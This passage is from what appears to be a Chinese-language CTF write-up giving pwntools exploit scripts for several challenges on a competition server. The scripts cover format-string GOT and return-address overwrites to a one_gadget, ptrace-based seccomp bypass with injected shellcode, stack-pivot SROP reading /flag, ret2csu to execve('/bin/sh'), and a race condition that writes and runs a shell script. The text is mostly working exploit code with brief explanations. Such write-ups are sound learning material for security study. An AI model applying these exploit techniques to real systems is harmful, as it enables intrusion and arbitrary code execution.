context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   30253
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

# debug('b *0x401321\nc\n')

sa(b'Exit.\n', b'2')
sla(b'voice.\n', b'A'*0x100 + b'%87c%8$hhn%187c%9$hhn%33$p\x00')

sa(b'Exit.\n', b'1')
sa(b'for?\n', p64(0x404040) + p64(0x404041))

ru(b'\x00')
libc_base = int(r(14).decode(), 16) - (libc.sym['__libc_start_main'] + 137)
leak('libc_base')

one_gadget = libc_os(0xe5ff0) # r9, r10 = 0

for i in range(6):
    sa(b'Exit.\n', b'2')
    sla(b'voice.\n', b'A'*0x100 + f'%{one_gadget % 256}c%8$hhn%12$p\x00'.encode())

    sa(b'Exit.\n', b'1')
    sa(b'for?\n', p64(0x404048 + i))

    one_gadget //= 256

ru(b'0x')
stack = int(r(12).decode(), 16)
leak('stack')

sa(b'Exit.\n', b'2')
sla(b'voice.\n', b'A'*0x100 + b'%182c%8$hhn%91c%9$hhn\x00')

sa(b'Exit.\n', b'1')
sa(b'for?\n', p64(stack - 0x78) + p64(stack - 0x78 + 1))

sa(b'Exit.\n', b'3')

itr()
```


# ptrce

用ptrace把子进程的got_seccomp全部改为空函数

再把sleep的返回地址改为父进程的功能地址，实现任意shellcode执行

这里attach后要等待子进程收到信号并暂停，用ai写了个暂停1秒

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)

choice = 2
if choice == 2:
    port =   32704
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
elif choice == 1:
    p = process(file)
else:
    p = gdb.debug(file, '''
        set follow-fork-mode parent
        b *0x401849
        b *0x401AC2
        c
    ''')

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
leak2    = lambda name               :log.success('{} = {}'.format(name, eval(name)))

sla(b'4) Exit\n', b'2')
ru(b'PID = ')
pid = int(p.recvline(keepends=False))
leak2('pid')

shellcode = f'''

mov rax, 101
mov rdi, 16
mov rsi, {pid}
mov rdx, 0
mov r10, 0
syscall

call sleep_1_second

mov rax, 101
mov rdi, 5
mov rsi, {pid}
lea rdx, [rbp-0x78]
mov r10, 0x4018E1
syscall

mov rax, 101
mov rdi, 5
mov rsi, {pid}
mov rdx, 0x404020
mov r10, 0x401B88
syscall

mov rax, 101
mov rdi, 5
mov rsi, {pid}
mov rdx, 0x404030
mov r10, 0x401B88
syscall

mov rax, 101
mov rdi, 5
mov rsi, {pid}
mov rdx, 0x404040
mov r10, 0x401B88
syscall

mov rax, 101
mov rdi, 5
mov rsi, {pid}
mov rdx, 0x404068
mov r10, 0x401B88
syscall

mov rax, 101
mov rdi, 7
mov rsi, {pid}
mov rdx, 0
mov r10, 0
syscall

mov rax, 101
mov rdi, 17
mov rsi, {pid}
mov rdx, 0
mov r10, 0
syscall

sleep_1_second:
    push rbp
    mov rbp, rsp
    sub rsp, 32         
    
    mov rax, 96         
    lea rdi, [rsp+16]   
    mov rsi, 0          
    syscall
    
    mov r8, [rsp+16]    
    mov r9, [rsp+24]    
    
sleep_loop:
    mov rax, 96         
    lea rdi, [rsp]      
    mov rsi, 0
    syscall
    
    mov r10, [rsp]      
    mov r11, [rsp+8]    
    
    sub r10, r8         
    imul r10, r10, 1000000  
    sub r11, r9         
    add r10, r11        
    

    cmp r10, 1000000
    jl sleep_loop       
    
    add rsp, 32
    pop rbp
    ret


''' # 不能出现\x0a

asm1 = asm(shellcode)

assert b'\x0a' not in asm1

sla(b'4) Exit\n', b'1')
sla(b'to be?\n', str(len(asm1) + 1).encode())
sla(b'the memory?\n', b'7')
sla(b'to include?\n', asm1)

ru(b'at ')
addr = int(p.recvline(keepends=False), 16)
leak('addr')


sla(b'4) Exit\n', b'3')
sla(b'to execute code?\n', hex(addr)[2:].encode())

asm2 = asm(shellcraft.sh())

sla(b'4) Exit\n', b'1')
sla(b'to be?\n', str(len(asm2) + 1).encode())
sla(b'the memory?\n', b'7')
sla(b'to include?\n', asm2)

ru(b'at ')
addr = int(p.recvline(keepends=False), 16)
leak('addr')


sla(b'4) Exit\n', b'3')
sla(b'to execute code?\n', hex(addr)[2:].encode())


itr()
```


# Mission Last Spell

栈迁移

需要在栈上找一个地址，使其覆盖最低位后变为syscall地址，且执行下去能返回

这里只需[rbp+0x340]位置内容为0

srop的部分，改地址时要提前在下方写好rbp和返回地址，frame需要分两次读入

然后orw

（为什么栈的相对偏移会变？我没搞懂）

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1

def solve():
    if choice:
        port =   30468
        target = 'geek.ctfplus.cn'
        p = remote(target, port)
    else:
        p = process(file, aslr=False)

    def debug(cmd=''):
        if choice==1:
            return
        gdb.attach(p, gdbscript=cmd)


    s       = lambda data               :p.send(data)
    sl      = lambda data               :p.sendline(data)
    sa      = lambda x,data             :p.sendafter(x, data)
    sla     = lambda x,data             :p.sendlineafter(x, data)
    r       = lambda num=4096           :p.recv(num)
    rl      = lambda num=4096           :p.recvline(num)
    ru      = lambda x                  :p.recvuntil(x)
    itr     = lambda                    :p.interactive()
    uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
    uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
    uru64   = lambda                    :uu64(ru('\x7f')[-6:])
    leak    = lambda name               :log.success('{}'.format(name))
    libc_os   = lambda x                :libc_base + x

    ru(b'received : ')
    l = rl().decode().split('; ')
    stack = int(l[0], 16)
    pie = int(l[1], 16) - 0x004050
    leak('pie')
    ru(b'enabled\n')

    rbp1 = stack + 0x8
    # rbp3 = rbp1 - 0x478
    rbp3 = rbp1 - 0xf68
    rbp2 = rbp3 + 0x88

    leak('rbp1')
    leak('rbp2')
    leak('rbp3')
    log.success(hex(rbp3))

    # debug()
    payload = b'A'*0x80
    payload += p64(rbp2)
    payload += p64(pie + 0x001584)
    s(payload)

    payload = b'A'*0x70
    payload += p64(rbp1)
    payload += p64(pie + 0x001584)
    payload += p64(rbp2 - 0x10)
    payload += p64(pie + 0x001584)
    s(payload)

    # s(p64(0) + p8(0x7f))
    s(p64(0) + p8(0x32))

    sleep(2)

    # --------------------------

    payload = b'A'*0x80
    payload += p64(rbp2)
    payload += p64(pie + 0x001584)
    s(payload)

    frame = SigreturnFrame()
    frame.rax = 2
    frame.rdi = rbp1 - 0x18
    frame.rsi = 0
    frame.rdx = 0
    frame.r12 = rbp1
    frame.rbp = rbp3 - 8 - 0x340
    frame.rsp = rbp3
    frame.rip = pie + 0x00159C # ret

    s(p64(0)*4 + p64(rbp1) + p64(0)*2 + p64(pie + 0x001584) + bytes(frame)[0x40:0x80] + p64(rbp1) + p64(pie + 0x001584))

    # debug('b *0x15555552d032')
    payload = b'A'*0x68
    payload += b'/flag\x00\x00\x00'
    payload += p64(rbp3 - 0x8)
    payload += p64(pie + 0x00159B)
    payload += p64(rbp2 + 0x80)
    payload += p64(pie + 0x001584)
    s(payload)

    s(bytes(frame)[0x80:].ljust(0x80, b'\x00') + p64(rbp1 - 0x10) + p64(pie + 0x001584))

    s(b'A'*15)
    log.success('open')
    sleep(5)

    # --------------------------

    payload = b'A'*0x80
    payload += p64(rbp2)
    payload += p64(pie + 0x001584)
    s(payload)

    frame = SigreturnFrame()
    frame.rax = 0
    frame.rdi = 1
    frame.rsi = rbp1 + 0x20
    frame.rdx = 0x40
    frame.r12 = rbp1
    frame.rbp = rbp3 - 8 - 0x340
    frame.rsp = rbp3
    frame.rip = pie + 0x00159C # ret

    s(p64(0)*4 + p64(rbp1) + p64(0)*2 + p64(pie + 0x001584) + bytes(frame)[0x40:0x80] + p64(rbp1) + p64(pie + 0x001584))

    # debug('b *0x15555552d032')
    payload = b'A'*0x70
    payload += p64(rbp3 - 0x8)
    payload += p64(pie + 0x00159B)
    payload += p64(rbp2 + 0x80)
    payload += p64(pie + 0x001584)
    s(payload)

    s(bytes(frame)[0x80:].ljust(0x80, b'\x00') + p64(rbp1 - 0x10) + p64(pie + 0x001584))

    s(b'A'*15)
    log.success('read')
    sleep(5)

    # --------------------------

    payload = b'A'*0x80
    payload += p64(rbp2)
    payload += p64(pie + 0x001584)
    s(payload)

    frame = SigreturnFrame()
    frame.rax = 1
    frame.rdi = 2
    frame.rsi = rbp1 + 0x20
    frame.rdx = 0x40
    frame.r12 = rbp1
    frame.rbp = rbp3 - 8 - 0x340
    frame.rsp = rbp3
    frame.rip = pie + 0x00159C # ret

    s(p64(0)*4 + p64(rbp1) + p64(0)*2 + p64(pie + 0x001584) + bytes(frame)[0x40:0x80] + p64(rbp1) + p64(pie + 0x001584))

    # debug('b *0x15555552d032')
    payload = b'A'*0x70
    payload += p64(rbp3 - 0x8)
    payload += p64(pie + 0x00159B)
    payload += p64(rbp2 + 0x80)
    payload += p64(pie + 0x001584)
    s(payload)

    s(bytes(frame)[0x80:].ljust(0x80, b'\x00') + p64(rbp1 - 0x10) + p64(pie + 0x001584))

    s(b'A'*15)
    log.success('write')

    itr()

for i in range(20):
    try:
        solve()
    except:
        pass
```


# Mission Final Dance

本地关闭aslr，方便调试

首先对0x4006e0断点，看它是怎么被定位的

如图所示，从elf中读入了fini_array起始位置，并从0x155555427168读入了一个偏移



而这个地址刚好残留在栈上，用printf修改偏移，并在buf写入vuln地址

进入vuln，然后ret2csu

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 0
if choice:
    port =   31635
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file, aslr=False)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x

ru(b'dance!\n')

# debug()
debug('b *0x155555210df9\nc\n')

payload = f'%{0x601060+0x98-0x600DD8}c%24$hn%7$p'.encode()
s(payload.ljust(0x88, b'\x00') + p64(0x400854) + b'/bin/sh\x00' + p64(0x400726))

ru(b'0x')
libc_base = int(r(12).decode(), 16) - (libc.sym['__libc_start_main'] + 240)
leak('libc_base')

payload = b'A'*(0x20+8)
payload += p64(0x40083A)
payload += p64(0)
payload += p64(1)
payload += p64(0x601060+0x88)
payload += p64(0)
payload += p64(0)
payload += p64(0x601060+0x90)
payload += p64(0x400820)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(libc_os(libc.sym['execve']))

s(payload)


itr()
```


# Your name

条件竞争，thread_arg是全局变量

如果在一个线程确定要进入op_write_file后，把thread_arg.op.index改为0，就可以对./log修改

再执行./log

```python
from pwn import *

context.log_level = 'debug'

# p = process('./yourName')
p = remote("geek.ctfplus.cn", 30185)

payload = b'['

for i in range(10):
    payload += b'{"index":1, "buf":"'
    payload += b'#!/bin/sh\n/bin/sh' + b'\n'*5
    payload += b'"},'

for i in range(1):
    payload += b'{"index":0, "buf":"'
    payload += b'#!/bin/sh\n/bin/sh' + b'\n'*5
    payload += b'"},'

payload = payload.removesuffix(b',')
payload += b']'

p.recvuntil(b'>>')

p.send(payload)

p.interactive()
```


# PWN_GAME

文件名存在溢出，可以改出生点到边界外



把右下角`O`推到`1`处，再用`@`把它推到`2`处

这样，`S`就同时具有了is_push和is_you属性

接着，把两个`S`搞到`3`和`4`的位置，`I`就同时具有了is_push和is_you属性

用一个`I`把`X`填了，两个`I`走到右上角位置

由于step_game从上到下，从左到右执行

第一个`I`把第二个`I`推到第二行第一列

然后第二个`I`自己走一步，成功到`6`，win!

```python
from pwn import *

context(arch='amd64', os='linux')
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './pwn'
elf = ELF(file)
# libc = ELF('./libc.so.6')

choice = 0
if choice:
    port =   31566
    target = 'geek.ctfplus.cn'
    p = remote(target, port)
else:
    p = process(file)

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x


payload = b'hard.y'.ljust(62, b'\x00') + b'\n'
s(payload)

# sassssssaaaaasdddddwds
# sassssssaaaaasdddddwdsssdddsdsssssaasasssssdddddaaadssdswwdd

itr()
```

